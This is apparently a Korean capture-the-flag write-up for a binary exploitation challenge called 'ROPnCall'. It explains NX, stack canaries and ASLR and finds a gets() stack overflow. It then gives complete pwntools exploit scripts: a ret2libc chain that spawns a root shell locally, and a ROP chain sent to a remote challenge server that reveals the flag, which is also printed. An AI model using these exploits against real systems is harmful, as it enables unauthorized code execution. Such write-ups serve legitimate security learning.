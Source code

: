 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-19-55-37.png)

첨부파일

[ROPnCall.zip](https://rdmd.readme.io/docs/code-blocks)


# **Write-Up**

해당 파일의 NX 를 확인하면 활성화되어 있으면서, 동적 라이브러리를 사용한다.

* NX Bit : 프로세스 명령어나 코드 또는 데이터 저장을 위한 메모리 영역을 따로 분리하는 CPU의 기술 NX특성으로 지정된 모든 메모리 구역은 데이터 저장을 위해서만 사용되며, 프로세스 명령어가 그 곳에 상주하지 않음으로써 실행되지 않도록 만들어 준다.
* Canary :Canaries 또는 Canary word는 버퍼 오버 플로우를 모니터하기 위해 버퍼와 제어 데이터 사이에 설정 된 값 버퍼 오버플로가 발생하면 Canary 값이 손상되며, Canaries 데이터의 검증에 실패하여, 오버플로에 대한 경고가 출력되고, 손상된 데이터를 무효화 처리 

![](images/2022-05-18-19-55-51.png)
![](images/2022-05-18-19-55-56.png)

* NX Bit 컴파일 옵션

    NX-disabled : gcc -z execstack -o disabled source.c
    
    NX-enabled : gcc -o enabled source.c

gdb로 확인해보면 gets함수에서 overflow가 터지는 취약점이 존재한다.

```
0x00000000004012d4 <+91>:    lea    -0x10(%rbp),%rax
0x00000000004012d8 <+95>:    mov    %rax,%rdi
0x00000000004012db <+98>:    mov    $0x0,%eax
0x00000000004012e0 <+103>:   callq  0x4010a0 <gets@plt>
```

rp++을 이용하여 pop rdi pop ret Gadget offset을 구한다.

```sh
root@ubuntu:~# ./rp-lin-x64 -f /lib/x86_64-linux-gnu/libc.so.6 -r 3 | grep "pop rdi ; pop"
0x00022203: pop rdi ; pop rbp ; ret  ;  (1 found)
...
```

ASLR을 해제(echo 0 > /proc/sys/kernel/randomize_va_space)하고 로컬 파일을 불러와 테스트해본다.

```py
e = ELF("./ROPnCall", checksec=False)
libc = e.libc
libc.address = 0x00007ffff79e2000

system_addr = libc.symbols['system']
shell_addr  = next(libc.search("/bin/sh".encode()))

r = ROP(e)
gadget = libc.address + 0x00022203

p = process("./ROPnCall")
payload = b''
payload += b'A'*(16 + 8)
payload += p64(gadget)
payload += p64(shell_addr)
payload += b'A'* 8
payload += p64(system_addr)
p.recvuntil('what else?')
p.sendline(payload)
p.interactive()

[Output]
root@ubuntu:~# [*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 17 cached gadgets for './ROPnCall'
[+] Starting local process './ROPnCall': pid 16803
[*] Switching to interactive mode

$ id
uid=0(root) gid=0(root) groups=0(root)
```

* ASLR : 메모리 손상 취약점 공격을 방지하기 위한 기술

스택, 힙, 라이브러리, 등의 주소를 랜덤한 영역에 배치하여, 공격에 필요한 Target address를 예측하기 어렵게 만듦

프로그램이 실행 될 때 마다 각 주소들이 변경됨

shell을 획득하는데 성공했으니 문제의 서버로 exploit해보면 shell을 얻지 못한다. 따라서 ASLR이 적용되어 있다고 본다.

```py
e = ELF("./ROPnCall", checksec=False)
libc = e.libc
libc.address = 0x00007ffff79e2000

system_addr = libc.symbols['system']
shell_addr  = next(libc.search("/bin/sh".encode()))

r = ROP(e)
gadget = libc.address + 0x00169c0b # pop rdi; pop rbp; ret;

p = remote('20.94.210.205', 1337)
payload = b''
payload += b'A'*(16 + 8)
payload += p64(gadget)
payload += p64(shell_addr)
payload += b'A'* 8
payload += p64(system_addr)
p.recvuntil('what else?')
p.sendline(payload)
p.interactive()

[Output]
...
[+] Opening connection to 20.94.210.205 on port 1337: Done
[*] Switching to interactive mode

[*] Got EOF while reading in interactive
```

strings을 사용해서 "flag" 문자열을 찾아보니 ROPnCall 바이너리에 들어있었고, 해당 주소로 가보니 flag.txt를 읽어서 출력하는 로직(0x4011BA)이 있다.

![](images/2022-05-18-19-58-47.png)

0x4011C2 ~ 0x4011D2까지 여러 레지스터로부터 [rbp-0x54] ~ [rbp-0x68]까지 데이터를 저장하는 것으로 보아 gadget은 pop edi; ret; pop esi; ret; ~ 이 필요하다.

![](images/2022-05-18-19-58-56.png)

그리고 레지스터에는 다음의 이미지처럼 지정된 값이 들어가 있어야하고, [rbp+0x10]에도 overflow를 일으켜 데이터를 저장시켜줘야 한다.

![](images/2022-05-18-19-59-03.png)

최종 exploit 코드는 다음과 같다.

```py
from pwn import *
# on Linux : pip install -U pip setuptools 
context(arch='amd64')
p = remote('20.94.210.205', 1337)
e = ELF("./ROPnCall", checksec=False)
r = ROP(e)
flag_addr = 0x4011ba

payload = b''
payload += b'A'*(16 + 8)
payload += p64(r.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(0xACC01ADE)
payload += p64(r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0])
payload += p64(0xB1A5ED0F)
payload += b'A'*8
payload += p64(r.find_gadget(['pop rdx', 'ret'])[0])
payload += p64(0xDEADBEEF)
payload += p64(r.find_gadget(['pop rcx', 'ret'])[0])
payload += p64(0xBA5EBA11)
payload += p64(0x0040126e) # pop r8 ret
payload += p64(0x1337C0DE)
payload += p64(0x00401271) # pop r9 ret
payload += p64(0xC001C0DE)
payload += p64(flag_addr)
payload += b'A'*8
payload += p64(0xDEA110C8)

p.recvuntil('what else?')
p.sendline(payload)
p.recv()
print(p.recv().decode())

[Output]
[+] Opening connection to 20.94.210.205 on port 1337: Done
[*] Loaded 17 cached gadgets for './ROPnCall'
ictf{linux_x86-64_follows_system_v_amd64_abi_calling_convention}

[*] Closed connection to 20.94.210.205 port 1337
```


# **FLAG**

**ictf{linux_x86-64_follows_system_v_amd64_abi_calling_convention}**